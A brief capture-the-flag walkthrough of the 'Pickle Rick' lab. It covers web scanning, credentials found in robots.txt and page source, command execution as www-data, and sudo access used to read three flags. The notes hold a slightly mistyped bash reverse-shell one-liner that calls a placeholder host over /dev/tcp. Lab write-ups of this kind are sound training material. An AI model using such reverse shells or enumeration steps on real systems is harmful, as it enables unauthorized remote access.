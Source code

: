 # Pickle Rick CTF
In this CTF we have to exploit a web server to find three flags.
**Walkthrough**
1. We scan the webserver using NMap, [dirb](https://www.kali.org/tools/dirb/), [nikto](https://github.com/sullo/nikto/wiki) and [Zap proxy](https://www.zaproxy.org/docs/)
2. We discover that the ports 22 and 80 are open and the file `/robots.txt`, containing the phrase "Wabbalubbadubdub"
3. We visit the web page, look at the source code and find the username "R1ckRul3s" 
4. Navigating to the login we enter the username and the phrase and get a command panel as the user "www-data"
5. With the command `sudo -l` we find out that we have root access
6. We enter `ls -la` and see a file called "Sup3rS3cretPickl3Ingred.txt" 
7. We open it with `less Sup3rS3cretPickl3Ingred.txt` and get the first flag
8. We look around the file system first `/home` and then further
9. We find the second ingredient at `/home/rick/second ingredients`
10. Because we have root access we can also look at `/root` where we find the third flag at `/root/3rd.txt`

**Notes**
- We can also access the flags via the URL, f.e. `192.168.1.101/Sup3rS3cretPickl3Ingred.txt`
- It is also possible to open a bash reverse shell but only encapsulated in a bash - c
```
bash -c `bash -1 >& /dev/tcp/x.x.x.x/8080 0>&1`
```

